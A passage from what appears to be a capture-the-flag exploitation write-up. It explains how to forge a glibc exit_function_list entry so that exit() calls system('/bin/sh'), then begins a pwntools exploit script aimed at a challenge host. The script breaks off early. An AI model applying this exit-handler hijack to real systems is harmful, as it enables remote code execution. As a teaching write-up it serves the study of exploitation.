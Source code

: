 ```c  
   union  
     {  
	void (*at) (void);  
	struct  
	  {  
	    void (*fn) (int status, void *arg);  
	    void *arg;  
	  } on;  
	struct  
	  {  
	    void (*fn) (void *arg, int status);  
	    void *arg;  
	    void *dso_handle;  
	  } cxa;  
     } func;  
 };  
struct exit_function_list  
 {  
   struct exit_function_list *next;  
   size_t idx;  
   struct exit_function fns[32];  
 };  
```

**Note:** `idx` denotes the number of entries.

So we want a `exit_function_list` with next set to `NULL`, `idx` to 1 and an
`exit_function` in `fns[0]`. What type of exit function do we want? There are
different "flavors" to choose from. In our case type `cxa` looks nice, because
we can specify a pointer as the first argument of the function as well.

If we put a pointer to `"/bin/sh"` into `arg` (just allocate it on the heap,
we can calculate the offset) and the address of `system` into `fn`, a call to
`exit()` will invoke `system("/bin/sh")` and we're done. What a ride!  
# Complete exploit  
```python  
#!/usr/bin/env python3  
from pwn import *

# Set up pwntools for the correct architecture  
context.update(arch='amd64', terminal=['alacritty', '-e', 'sh', '-c'])

exe_file = './main'

host = '51.250.22.68'  
port = 17001

binary = ELF(exe_file)  
libc = ELF('./libc.so.6')

def start(argv=[]):  
   '''Start the exploit against the target.'''  
   if args.GDB:  
       return gdb.debug([exe_file] + argv, gdbscript=gdbscript)  
   elif args.REMOTE:  
       return remote(host, port)  
   else:  
       return process([exe_file] + argv)

# Specify your GDB script here for debugging  
# GDB will be launched if the exploit is run via e.g.  
# ./exploit.py GDB  
gdbscript = '''  
```